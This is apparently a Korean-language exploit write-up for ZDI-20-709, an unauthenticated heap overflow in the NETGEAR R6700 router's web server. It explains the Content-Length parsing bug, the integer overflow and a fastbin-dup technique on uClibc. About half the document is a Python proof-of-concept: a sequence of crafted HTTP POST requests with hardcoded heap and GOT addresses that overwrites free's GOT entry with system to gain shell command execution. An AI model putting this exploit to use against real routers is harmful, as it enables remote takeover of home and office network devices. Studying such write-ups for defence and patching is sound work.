

# Heap Overflow in the NETGEAR NightHawk R6700 Router
* Date : Feb 2020
* Advisory : [ZDI](https://www.zerodayinitiative.com/advisories/ZDI-20-709/)
* CVSS : [8.8](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H))
* Affected Versions : NETGEAR R6700 Router /w under V1.0.4.84_10.0.58 firmware version

## Description
> 익스플로잇을 위한 상세한 테크닉 설명은 생략함  

본 취약점은 `/usr/bin/httpd` 바이너리에서 HTTP 리퀘스트를 처리하면서 발생한다. 해당 쿼리는 인증받지 않은 사용자가 전송할 수 있으며 공격에 성공할 경우 완변한 쉘 명령어 실행권한을 획득할 수 있다. 요약하면 취약점은 2개이다.

* 사용자가 새로운 설정파일을 업로드할 수 있는 것 (Authentication Failure)
* 파일 업로드 기능에서 Integer Overflow로 인한 Heap Overflow 

첫 번째 취약점의 경우 본 익스플로잇을 작성하는데 큰 영향을 주진 않는다. 사용자가 설정 파일을 새로 업로드할 수 있어도 이를 적용하기 위해선 기존 credential 정보에 대한 인증 작업이 이뤄지기 때문이다. 하지만, 두 번재 취약점은 치명적인데, 이는 사용자(공격자)가 업로드한 파일을 Heap 영역에 할당된 버퍼에 원하는 크기만큼 복사할 수 있다. 이를 간단하게 pseudo code로 표현하면 다음과 같다.

```c
buffer = malloc(attacker_control_size);
memcpy(buffer, file_content, file_content_size);
```

할당된 버퍼 크기를 조절하기 위해서 **Content-Length** 헤더를 사용할 수 있다. 하지만, 본 공유기에서 HTTP 리퀘스트를 Nginx Proxy를 거치도록 설계되어 있어, 단순히 해당 헤더에 원하는 값을 적는다고 원하는 크기로 할당할 수 없다. 하지만, CGI 바이너리에서 **Content-Length** 헤더 값을 처리하는데 *atoi* 함수를 이용하는데 해당 함수의 로직에 문제가 있다. 요약하면, *atoi* 함수 내에 *strstr* 함수를 통해 **Content-Length** 헤더의 마지막 값을 가져와야하는데 실수로 헤더가 아닌 전체 리퀘스트 패킷 전체를 입력 값으로 받게되어 공격자가 원하는 임의의 값으로 설정할 수 있게 된다. 예를들어, `POST /cgi-bin/genie.cgi?backup.cgiContent-Length: 111 HTTP/1.1` 로 리퀘스트를 보낸 경우 `strstr` 함수에서는 **111 HTTP/1.1** 값을 입력으로 받게 되는 것이다. 이후, 업로드한 파일을 저장하기 위한 공간을 할당하기 위해 *malloc* 함수의 인자로 이전에 계산한 값에 0x258을 더한 값을 설정한다. 만약, 공격자가 조작한 값이 **0xffffffe9**와 같은 음수 값이라면 0x258이 더해지면 **0x241** 값으로 설정(Integer Overflow)된다. 이를 통해, 위 C코드에서 **attacker_control_size** 값을 설정할 수 있게 된다. 

다음으로, 할당된 Heap 버퍼에 공격자가 업로드한 파일 내용을 복사하는 부분은 다음과 같다.  


이전에 계산된 크기대로 *memset*을 통해 초기화하고 *memcpy* 함수를 통해 공격자가 업로드한 파일 내용을 그대로 복사(Heap Overflow)한다. 

## Exploit Summary
여태까지 식별된 취약점과 익스플로잇을 위한 고려사항은 다음과 같다.  
* Heap Overflow 취약점을 통해 Heap 영역에 임의의 데이터를 작성할 수 있음
* 본 공유기 모델의 특성상 ASLR이 허술하게 구현되어 있어 Heap 메모리가 **고정된 주소**에 할당됨
* 본 공유기 파일시스템에선 glibc의 소형 버전인 uClibc를 사용하며, malloc/free 구현 형태가 다소 단순하고 (기존 glibc heap exploitation 기법과) 익스플로잇 형태가 다름
* *memcpy* 함수를 통해 Heap Overflow 발생 이후 에러 페이지를 반환하는 함수(`sub_21a58`)가 호출되며, 해당 함수에서는 파일을 열기 위해 `fopen` 함수가 호출됨
* *fopen* 함수에선 *malloc* 함수가 두번 호출되며 각각 0x60, 0x1000 크기로 할당되고 해제(free)됨

본 취약점을 익스플로잇하기 위해선 **[fastbin dup](https://github.com/shellphish/how2heap#educational-heap-exploitation)** 기법을 활용할 수 있는데, 한 가지 문제점이 있다. 위에서 언급한 flow에서 마지막에 *malloc(0x1000)* 이 호출되는데 이는 *__malloc_consolidate* 함수를 호출해서 (비교적 작은 크기의 할당 해제된 청크들을 담고 있는) fastbin 구조를 망가뜨린다. 이를 막기 위해서 본 공유기에서 사용하는 uClibc의 metadata 설계 취약점을 이용해야 한다. 해당 기법에 대한 설명은 생략한다. 정리하면, 다음과 같은 흐름으로 쉘 명령어 실행 권한을 획득할 수 있다.  
* **Content-Length** 헤더 값을 변조해서 원하는 크기만큼 Heap 버퍼 할당
* fastbin dup 공격 기법을 이용하기 위한 사전 작업을 수행
* fastbin dup 공격을 통해 공격자가 지정한 주소 **free_got** 를 *malloc* 함수 반환 값으로 획득하고 해당 영역의 값을 **system_plt** 주소로 설정 (Write-What-Where)
* 이후 에러 페이지를 띄우는 함수 `sub_21a58`에서 *fopen* 함수를 통해 *free* 함수가 호출되고 이는 overwrite된 값으로 인해 *system* 함수를 실행 (Get a shell)

## PoC
```python
def exploit():
    path = '/cgi-bin/genie.cgi?backup.cgiContent-Length: 4156559'
    headers = ['Host: %s:%s' % (rhost, rport), 'a'*0x200 + ': d4rkn3ss']
    files = {'name': 'mtenRestoreCfg', 'filecontent': 'a'}
    print '[+] malloc 0x28 chunk'
    # 00:0000│ 0x103f000 ◂— 0x0
    # 01:0004│ 0x103f004 ◂— 0x29
    # 02:0008│ r0 0x103f008 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x20)
    post_request(path, headers, f)

    print '[+] malloc 0x18 chunk'
    # 00:0000│ 0x103f000 ◂— 0x0
    # 01:0004│ 0x103f004 ◂— 0x29 /* ')' */
    # 02:0008│ 0x103f008
    # 03:000c│ 0x103f00c
    # ... ↓
    # 0a:0028│ 0x103f028
    # 0b:002c│ 0x103f02c ◂— 0x19
    # 0c:0030│ r0 0x103f030 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x10)
    post_request(path, headers, f)

    print '[+] malloc 0x28 chunk and overwrite 0x18 chunk header to make overlap chunk'
    # 00:0000│ 0x103eb50 ◂— 0x0
    # 01:0004│ 0x103eb54 ◂— 0x21 <-- recheck
    # ... ↓
    # 12d:04b4│ 0x103f004 ◂— 0x29 /* ')' */
    # 12e:04b8│ 0x103f008 ◂— 0x61616161 ('aaaa') <-- 0x28 chunk
    # ... ↓
    # 136:04d8│ 0x103f028 ◂— 0x4d8
    # 137:04dc│ 0x103f02c ◂— 0x18
    # 138:04e0│ 0x103f030 ◂— 0x0
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x20)
    f['filecontent'] = 'a' * 0x20 + p32(0x4d8) + p32(0x18)
    post_request(path, headers, f)

    print '[+] malloc 0x4b8 chunk and overwrite size of 0x28 chunk -> 0x9. Then, when __malloc_consolidate() function is called, __malloc_state->max_fast will be overwritten to a large value.'
    # 00:0000│ 0x103eb50 ◂— 0x0
    # 01:0004│ 0x103eb54 ◂— 0x4f1
    # ... ↓
    # 12d:04b4│ 0x103f004 ◂— 0x9
    # 12e:04b8│ 0x103f008
    # ... ↓
    # 136:04d8│ 0x103f028 ◂— 0x4d8
    # 137:04dc│ 0x103f02c ◂— 0x18
    # 138:04e0│ 0x103f030 ◂— 0x0
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x4b0).ljust(0x10) + 'a' * 0x4ac + p32(0x9)
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x18 chunk'
    # 00:0000│ 0x10417a8 ◂— 0xdfc3a88e
    # 01:0004│ 0x10417ac ◂— 0x19
    # 02:0008│ r0 0x10417b0 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x10)
    post_request(path, headers, f)

    print '[+] malloc 0x38 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ r0 0x103e770 <-- return here
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x30).ljust(0x10) + 'a'
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x48 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ r0 0x103e770
    # ... ↓
    # 0e:0038│ 0x103e7a0
    # 0f:003c│ 0x103e7a4 ◂— 0x49 /* 'I' */
    # 10:0040│ r0 0x103e7a8 <-- return here
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x40).ljust(0x10) + 'a'
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x38 chunk and overwrite fd pointer of 0x48 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4 <-- 0x38 chunk
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ 0x103e770 ◂— 0x0
    # 03:000c│ 0x103e774 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaI'
    # ... ↓
    # 0f:003c│ 0x103e7a4 ◂— 0x49 /* 'I' */ <-- 0x48 chunk
    # 10:0040│ 0x103e7a8 —▸ 0xf555c (semop@got.plt)
    free_got_addr = 0xF559C
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x30)
    f['filecontent'] = 'a' * 0x34 + p32(0x49) + p32(free_got_addr - 0x40)
    post_request(path, headers, f)

    print '[+] malloc 0x48 chunk'
    # 00:0000│ 0x103e7a0 ◂— 'aaaaI'
    # 01:0004│ 0x103e7a4 ◂— 0x49 /* 'I' */
    # 02:0008│ r0 0x103e7a8 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x40)
    post_request(path, headers, f)

    print '[+] malloc 0x48 chunk. And overwrite free_got_addr'
    # 00:0000│ 0xf555c (semop@got.plt) —▸ 0x403b6894 (semop) ◂— push {r3, r4, r7, lr}
    # 01:0004│ 0xf5560 (__aeabi_idiv@got.plt) —▸ 0xd998 ◂— str lr, [sp, #-4]!
    # 02:0008│ r0 0xf5564 (strstr@got.plt) —▸ 0x403c593c (strstr) ◂— push {r4, lr} <-- return here
    system_addr = 0xDBF8
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x40).ljust(0x10) + command.ljust(0x38, '') + p32(system_addr)
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] Done'
```

## Reference
- [ZDI Writeup](https://www.thezdi.com/blog/2020/6/24/zdi-20-709-heap-overflow-in-the-netgear-nighthawk-r6700-router)